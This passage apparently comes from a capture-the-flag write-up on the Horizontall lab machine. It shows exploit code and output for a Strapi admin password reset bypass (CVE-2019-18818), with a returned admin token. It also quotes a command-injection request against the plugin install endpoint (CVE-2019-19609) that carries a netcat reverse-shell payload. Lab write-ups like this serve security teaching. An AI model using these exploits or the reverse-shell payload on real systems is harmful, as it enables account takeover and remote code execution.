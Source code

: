 ```
print("[*] Sending password reset request...")    
reset_request={"email":email, "url":"{}/admin/plugins/users-permissions/auth/reset-password".format(url)}    
s.post("{}/".format(url), json=reset_request)    
     
#Reset password to    
print("[*] Setting new password...")    
exploit={"code":{}, "password":new_password, "passwordConfirmation":new_password}    
r=s.post("{}/admin/auth/reset-password".format(url), json=exploit)    
     
print("[*] Response:")    
print(str(r.content))   

```

Basically it gets the version, then submits a POST to `/admin/plugins/user-permissions/auth/reset-password`, and then another POST to `/admin/auth/reset-password`. I’ll give it a try. I thought I might need to guess the admin email address, but it turns out that doesn’t matter (I’ll look at the script and the responses in [Beyond Root](#cve-2019-18818)).

```

oxdf@hacky$ python3 cve-2019-18818.py randomjunk http://api-prod.horizontall.htb 0xdf0xdf
[*] Detected version(GET /admin/strapiVersion): 3.0.0-beta.17.4
[*] Sending password reset request...
[*] Setting new password...
[*] Response:
b'{"jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjI3OTI1NzY0LCJleHAiOjE2MzA1MTc3NjR9.KKiaGhh3vsqtsgoqxliwiQt-8SLpQem6L5LDs0ks34o","user":{"id":3,"username":"admin","email":"admin@horizontall.htb","blocked":null}}'

```

The response gives the admin’s username, which I can use to log in at `/admin`:

![image-20210802134604970](https://0xdfimages.gitlab.io/img/image-20210802134604970.png)

### RCE

#### Proof of Concept

Now that I’m authenticated, I’ll turn back to CVE-2019-19609. Looking at the [blog post](https://bittherapy.net/post/strapi-framework-remote-code-execution/), it’s a JSON POST request to `/admin/plugins/install` with command injection in the `plugin` parameter. They show it as a `curl` command:

```

curl -i -s -k -X $'POST' -H $'Host: localhost:1337' -H $'Authorization: Bearer [jwt]' -H $'Content-Type: application/json' -H $'Origin: http://localhost:1337' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f)\",\"port\":\"1337\"}' $'http://localhost:1337/admin/plugins/install'

```

